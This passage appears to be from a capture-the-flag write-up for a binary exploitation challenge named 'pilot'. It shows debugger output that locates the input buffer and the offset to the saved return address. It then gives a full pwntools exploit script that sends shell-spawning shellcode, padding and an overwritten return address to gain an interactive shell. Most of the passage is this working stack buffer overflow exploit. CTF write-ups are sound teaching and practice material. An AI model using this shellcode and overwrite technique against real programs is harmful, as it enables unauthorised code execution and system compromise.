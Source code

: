 ```
[#1] 0x7ffff767cb97 → __libc_start_main(main=0x4009a6, argc=0x1, argv=0x7fffffffdf88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdf78)
[#2] 0x4008d9 → hlt 
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffde80 - 0x7fffffffde88  →   "15935728[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x400ae5; saved rip = 0x7ffff767cb97
 called by frame at 0x7fffffffdf70
 Arglist at 0x7fffffffde78, args: 
 Locals at 0x7fffffffde78, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde80 = 0x28` bytes. So we have a way to overwrite the return address, a place to store our shellcode, and we know where it is in memory. With this we can write our exploit:

```
from pwn import *

target = process('./pilot')

print target.recvuntil("[*]Location:")

leak = target.recvline()

inputAdr = int(leak.strip("\n"), 16)

payload = ""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
# This shellcode will pop a shell when we run it
payload += "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += "0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)

# Send the payload, drop to an interactive shell to use the shell we pop
target.send(payload)

target.interactive()
```
